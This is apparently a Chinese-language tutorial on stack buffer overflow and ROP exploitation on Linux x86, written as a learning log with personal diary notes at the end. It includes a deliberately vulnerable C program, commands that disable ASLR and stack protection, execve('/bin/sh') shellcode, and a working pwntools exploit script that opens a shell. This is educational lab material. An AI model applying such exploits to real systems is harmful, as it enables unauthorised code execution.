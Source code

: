 #一步一步学习ROP Linux_x86
这篇文章是在复现蒸米写的教程之后 对里面动手的部分进行纠正，详细解释请看蒸米的原文。

##0x01 Control Flow Hijack 程序流劫持

首先来看一下这个有缓冲区溢出的程序：

	#!c
	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>

	void vulnerable_function() {
    	char buf[128];
    	read(STDIN_FILENO, buf, 256);
	}

	int main(int argc, char** argv) {
    	vulnerable_function();
    	write(STDOUT_FILENO, "Hello, World\n", 13);
	}
	
用这个命令编译程序：

	gcc -fno-stack-protector -z execstack -o level1 level1.c
	
关闭ASLR
	
	sudo -s 
	echo 0 > /proc/sys/kernel/randomize_va_space
	exit

以上关闭系统的保护机制。

###第一步
计算出我们需要覆盖多少个字节，才能覆盖到返回地址（过程略）。

同时也能知道地址出错的位置。

计算结果为140个字节。

通过以上结论，我们可以计算出 buf的起始地址，也就是一会儿我们要将shellcode的放置的起始地址。

###第二步
接下来，我们需要一段shellcode（关于shellcode的生成的方法，可以参考长亭系统安全的ppt第三节）。

	#!c
	# execve ("/bin/sh") 
	# xor ecx, ecx
	# mul ecx
	# push ecx
	# push 0x68732f2f   ;; hs//
	# push 0x6e69622f   ;; nib/
	# mov ebx, esp
	# mov al, 11
	# int 0x80

	shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
	shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
	shellcode += "\x0b\xcd\x80

这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

###第三步
<mark>这里也是蒸米 原文无法复现的一个地方。

蒸米的原文是这样写的：

开启core dump:

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```
开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为<mark>0xbffff290

<mark>实际上并不是这样的，我们来在自己的电脑上操作一下

![core dump](1.png)

由上图可知，buf的起始地址是 `0xbffff640` <mark>实际上并不是的，请看第四步

###第四步


最终我们得到本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./rop') 
ret = 0xbffff640

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
```
执行：
![](2.png)

eeeeee,竟然成功了！！！！呃呃呃呃，但是还是想说一下调试。


###调试脚本
**我们来进行调试，也是本文最最重要的部分，如何调试你的脚本**

**首先**
在发送payload之前添加一个`raw_input()` 

![](3.png)

执行脚本
![](4.png)

我们在右上角运行sc.py 取得进程号，在左边的窗口打开gdb，然后 `attach 进程号` 

此时，rop就停住了（因为没有给他发送输入）

然后我们在右上输入一个字符，让程序继续

这样在左边 再按c让程序继续
![](5.png)


##结束语
今天是2018年5月9日 今天晚上园神收到了来自360某实验室的实习offer 非常为她感到高兴。这也给我在漫长的菜鸟阶段一点希望，我会继续努力下去的

今天是2018您11月26日，今天无意中翻到了这个文章，并且看到最后的一句话。想对5月的自己说，你也拿到了360企业安全 某实验室安全研究员的offer。也祝明年6月份入职的我，工作顺利。

今天是2019年12月25日 圣诞节，我正在电气试验班轮岗，太久没有学习pwn了，定岗的事情也没有头绪，我也不知道自己一直这么执着的原因是什么，问我喜不喜欢我是会犹豫的。
